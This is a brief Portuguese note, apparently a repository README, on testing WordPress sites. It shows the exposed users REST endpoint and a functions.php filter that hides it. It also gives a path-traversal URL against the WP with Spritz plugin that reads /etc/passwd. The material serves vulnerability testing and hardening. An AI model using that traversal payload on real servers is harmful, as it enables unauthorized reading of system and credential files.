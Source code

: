 # Como testar a vulnerablidade de um site wordpress:

Dados sensiveis exposto:

https://dominios.x.x/wp-json/wp/v2/users

Resolução:

Use este trecho de código para esconder a lista de usuários e dar 404 como resultado, enquanto o resto das chamadas de api continuarão funcionando como estavam.

Acessar o arquivo 'functions.php' no Wordpress e adicinar o seguinte codigo:

add_filter( 'rest_endpoints', function( $endpoints ){
    if ( isset( $endpoints['/wp/v2/users'] ) ) {
        unset( $endpoints['/wp/v2/users'] );
    }
    if ( isset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] ) ) {
        unset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] );
    }
    return $endpoints;
});


# Como testar vulnerabilidade do servidor web:

Descobrir possivel versão do servidor web e senha de usuarios:

https://dominio.x.x//wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd




